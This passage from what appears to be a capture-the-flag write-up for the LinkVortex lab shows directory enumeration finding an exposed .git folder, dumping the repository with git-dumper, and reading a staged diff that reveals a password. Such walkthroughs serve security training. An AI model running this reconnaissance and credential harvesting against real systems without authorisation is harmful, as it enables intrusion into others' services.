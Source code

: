```bash
Extensions: txt, php, html, js, md | HTTP method: GET | Threads: 100 | Wordlist size: 31784

Output File: dev-dirsearch-ext.txt

Target: http://dev.linkvortex.htb/

[13:15:05] Starting: 
[13:15:06] 200 -   41B  - /.git/HEAD
[13:15:48] 403 -  199B  - /cgi-bin/
Added to the queue: cgi-bin/
[13:16:54] 403 -  199B  - /icons/
Added to the queue: icons/
```

We can copy the repository to our machine by using [git-dumper](https://github.com/arthaud/git-dumper){:target="_blank"}{:rel="noopener noreferrer"}
```bash
┌──(kali@kali)-[~/linkvortex.htb]
└─$ mkdir dev.linkvortex.htb

┌──(kali@kali)-[~/linkvortex.htb]
└─$ git-dumper http://dev.linkvortex.htb ./dev.linkvortex.htb
```

It's a `git` repo so check for updated files
```bash
┌──(kali@kali)-[~/linkvortex.htb/dev.linkvortex.htb]
└─$ git status            
Not currently on any branch.
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
	new file:   Dockerfile.ghost
	modified:   ghost/core/test/regression/api/admin/authentication.test.js
```

The `authentication.test.js` file was changed. Let's view the differences
```bash
┌──(kali@kali)-[~/linkvortex.htb/dev.linkvortex.htb]
└─$ git diff --staged      
# ...
diff --git a/ghost/core/test/regression/api/admin/authentication.test.js b/ghost/core/test/regression/api/admin/authentication.test.js
index 2735588..e654b0e 100644
--- a/ghost/core/test/regression/api/admin/authentication.test.js
+++ b/ghost/core/test/regression/api/admin/authentication.test.js
@@ -53,7 +53,7 @@ describe('Authentication API', function () {
 
         it('complete setup', async function () {
             const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = 'OctopiFociPilfer45';
 
             const requestMock = nock('https://api.github.com')
                 .get('/repos/tryghost/dawn/zipball')
```
